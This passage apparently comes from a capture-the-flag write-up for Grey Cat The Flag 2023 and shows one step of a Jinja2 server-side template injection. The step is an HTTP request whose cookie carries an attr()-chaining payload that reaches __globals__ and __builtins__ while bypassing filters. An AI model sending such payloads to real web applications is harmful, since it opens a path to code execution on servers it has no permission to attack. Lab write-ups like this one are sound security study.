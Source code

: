 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230521125400.png)

**We have the `__getitem__` method! Let's get the `__builtins__` attribute!**
```http
GET /?service=adminpage&a=application&b=__globals__&c=__getitem__&d=__builtins__ HTTP/1.1
Cookie: user={{request|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)(request.args.d)}}
```
